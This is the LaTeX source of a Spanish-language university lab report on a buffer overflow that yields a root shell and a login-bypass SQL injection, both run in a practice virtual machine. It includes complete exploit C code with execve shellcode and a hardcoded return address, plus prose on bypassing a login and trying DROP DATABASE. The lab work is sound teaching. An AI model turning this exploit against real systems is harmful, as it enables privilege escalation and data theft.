% --------------------------------------------------------------
% This is all preamble stuff that you don't have to worry about.
% Head down to where it says "Start here"
% --------------------------------------------------------------
 
\documentclass[12pt]{article}
 
\usepackage[margin=1in]{geometry} 
\usepackage{amsmath,amsthm,amssymb}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{graphicx}

% Load the parskip package and set the spacing between paragraphs
\usepackage{parskip}
\setlength{\parskip}{1em} % Adjust the length as needed
\usepackage{listings}
\usepackage{xcolor}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}

\lstset{style=mystyle}
 
\newcommand{\N}{\mathbb{N}}
\newcommand{\Z}{\mathbb{Z}}
 
\newenvironment{theorem}[2][Theorem]{\begin{trivlist}
\item[\hskip \labelsep {\bfseries #1}\hskip \labelsep {\bfseries #2.}]}{\end{trivlist}}
\newenvironment{lemma}[2][Lemma]{\begin{trivlist}
\item[\hskip \labelsep {\bfseries #1}\hskip \labelsep {\bfseries #2.}]}{\end{trivlist}}
\newenvironment{exercise}[2][Exercise]{\begin{trivlist}
\item[\hskip \labelsep {\bfseries #1}\hskip \labelsep {\bfseries #2.}]}{\end{trivlist}}
\newenvironment{problem}[2][Problem]{\begin{trivlist}
\item[\hskip \labelsep {\bfseries #1}\hskip \labelsep {\bfseries #2.}]}{\end{trivlist}}
\newenvironment{question}[2][Question]{\begin{trivlist}
\item[\hskip \labelsep {\bfseries #1}\hskip \labelsep {\bfseries #2.}]}{\end{trivlist}}
\newenvironment{corollary}[2][Corollary]{\begin{trivlist}
\item[\hskip \labelsep {\bfseries #1}\hskip \labelsep {\bfseries #2.}]}{\end{trivlist}}

\newenvironment{solution}{\begin{proof}[Solution]}{\end{proof}}
 
\begin{document}
 
% --------------------------------------------------------------
%                         Start here
% --------------------------------------------------------------
 
\title{Seguridad Informática - Entrega 2}
\author{Luciano Barletta, Joaquín Caporalini\\ %replace with your name
Vulnerabilidades y Criptografía}

\maketitle

\section*{Buffer Overflow (modo básico)}

A continuación dejamos listados los comandos ejectutados en la máquina virtual, en el orden que fueron ejectutados:

\begin{figure}[!h]
    \centering
    
\includegraphics[width=0.9\linewidth]{primerosComandos.png}
    \caption{Preparación entorno}
    \label{fig:enter-label}
\end{figure}
% (acá la imagen de la terminal con todo ejecutado)

Quitamos las direcciones randomizadas, luego compilamos el programa vulnerable sin la protección del stack y con stack ejectutable. El comando para crear un soft link lo utilizamos para ganar una terminal con problemas de escalada de privilegios, la z shell. Finalmente, para ganar root al realizar el ataque, cambiamos el dueño del ejecutable vulterable a este usuario y encendemos la bandera SUID.

La idea será generar una entrada (badfile) donde ubiquemos el shellcode justo después de la dirección de retorno, y cambiar esta última para que apunte al comienzo del shell code, o sea una posición después de la dirección donde está. El motivo de poner el shell code ahí es que si intentáramos ubicarlo antes, el stack pointer nos pisaría las últimas instrucciones a medida que preparamos la llamada del ataque.

La forma en que determinamos la dirección en memoria de la RA es a través de un análisis con gdb, monitoreando dónde las direcciones del stack

% (imagen de el stack sin pisar)
\begin{figure}[!h]
    \centering
    
\includegraphics[width=0.9\linewidth]{StackSinAtacar.png}
    \caption{Estado del stack antes del ataque}
    \label{fig:enter-label}
\end{figure}

Observamos que hay un lugar que almacena una dirección un poco más adelante que el símbolo main. Este lugar es donde se almacena la RA que queremos pisar.

% (imagen de el stack pisado con NOOPs)
\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.9\linewidth]{Nops.png}
    \caption{Pisado con NOOPs, vemos dónde comienza el buffer}
    \label{fig:enter-label}
\end{figure}

De aquí podemos determinar el comienzo del buffer. Haciendo la resta de estas direcciones determinamos el lugar en que deberíamos pisar la RA, que es 36 bytes más adelante del comienzo del buffer. Justo después de esta, inyectaremos el shell code, o sea 40 bytes más adelante.

Lo que sigue es la confección del programa que genera la entrada maliciosa:

\begin{lstlisting}[]
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 
    memcpy(buffer + 36, "\x40\xeb\xff\xbf", 4);
    memcpy(buffer + 40, shellcode, sizeof shellcode);

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
\end{lstlisting}

\newpage

Que produce el siguiente output:

% (imagen del shell code funcionando)
\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.9\linewidth]{root.png}
    \caption{Ataque efectuado. Se vé el stack modificado y el prompt de root. El highlight es la dirección del shellcode, almacenada en la dirección de la RA.}
    \label{fig:enter-label}
\end{figure}

Notar que tuvimos que invocar al programa vulnerable con su ruta absoluta. Esto es debido a que gdb hace esta misma invocación. Esto previene un corrimiento del stack que invalida las direcciones recolectadas manualmente.

\newpage

\section*{SQL Inyection (modo básico)}

Primero nos familiarizamos con la base de datos:

% (imagen de primeros pasos en la db)
\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.9\linewidth]{sqlplay.png}
    \caption{Información de la DB}
    \label{fig:enter-label}
\end{figure}

Luego nos metemos en la web y comenzamos el ataque. Utilizar la contraseña no es posible porque esta será hasheada, impidiendo una forma directa de inyectar código. En su lugar utilizamos el nombre de usuario, donde pedimos que sea admin y comentamos la parte que verifica su contraseña.

% (imagen de admin)
\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.9\linewidth]{injection.png}
    \caption{Inyección desde la web}
    \label{fig:enter-label}
\end{figure}

% (imagen de romper la cosa)
\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.9\linewidth]{websuccess.png}
    \caption{Resultado del ataque, muestra de datos sensibles}
    \label{fig:enter-label}
\end{figure}

\newpage

Probamos hacerlo con cURL, copiado la URL del omnibox al momento de haber roto la seguridad, donde veíamos la tabla de datos. Almacenamos el resultado del pedido a un archivo HTML y verificamos que están todos los datos de la tabla.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.9\linewidth]{curl.png}
    \caption{Inyección desde la terminal con cURL}
    \label{fig:enter-label}
\end{figure}

\newpage

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.9\linewidth]{curlalice.png}
    \caption{Verificación de los datos sensibles en el archivo HTML guardado}
    \label{fig:enter-label}
\end{figure}

Para intentar hacer más daño, inyectamos una sentencia \verb|DROP DATABASE|. Pero este ataque es impedido. Leyendo la documentación de MySQLi, utilizar el método query permite únicamente ejecutar una query. Existe otro método llamado multi query, que permite la ejecución de múltiples queries separadas por punto y coma.

\begin{figure}[h!]
    \centering
